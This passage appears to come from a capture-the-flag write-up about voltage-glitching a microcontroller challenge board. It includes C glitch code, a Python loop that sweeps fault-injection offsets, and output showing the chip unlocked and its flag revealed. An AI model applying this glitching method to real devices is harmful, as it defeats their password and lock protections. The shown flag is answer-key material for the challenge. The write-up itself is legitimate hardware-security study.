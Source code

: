 ``` c
                clr(port_,pin_);
                wait_nbcycles(glitch_length);
                set(port_,pin_);
        }

}
```

We do have a trigger that we connected to arduino's TX. In this setup,
the glitch_length has been set to 100.

The calibration of the glitch has been performed on easyfi.hex. And then we ran
this script to seek after a successful fault injection:
``` python
while(1):                                                                       
    # Setup Hydra to glitch VCC                                                 
    hydracon.flush()                                                            
    hydracon.write(glitch_cmd_ + "\n")                                          
    time.sleep(0.3)                                                             
    rhmecon.write("\r\n")                                                       
    rr = rhmecon.read_all()                                                     
    result.write(glitch_cmd_ + "\n")                                            
    result.write(rr)                                                            
    result.flush()                                                              
    print rr                                                                    
    print "glitch done"                                                         
                                                                                
    glitch_cmd_ = glitch_cmd                                                    
    for i in range(len(offsets)):                                               
        glitch_cmd_ = glitch_cmd_ + " offsets " + str(int(offsets[i]) + int(steps[i]))
        offsets[i] = str(int(offsets[i]) + int(steps[i]))
    print glitch_cmd_                                    
    if ("flag" in rr):                                   
        end_of_prgm() 

```
And here is the output obtained:

```
Please write your password: gpio glitch trigger PB0 pin PC15 length 100 offsets 191000
Good try, cheater!^M
Chip locked^M
Please write your password: gpio glitch trigger PB0 pin PC15 length 100 offsets 191100
Good try, cheater!^M
Chip locked^M
Please write your password: gpio glitch trigger PB0 pin PC15 length 100 offsets 191200
Good try, cheater!^M
Chip locked^M
Please write your password: gpio glitch trigger PB0 pin PC15 length 100 offsets 191300
Chip unlocked^M
Your flag is: 02ab16ab3729fb2c2ec313e4669d319egpio glitch trigger PB0 pin PC15 length 100 offsets 191400
```
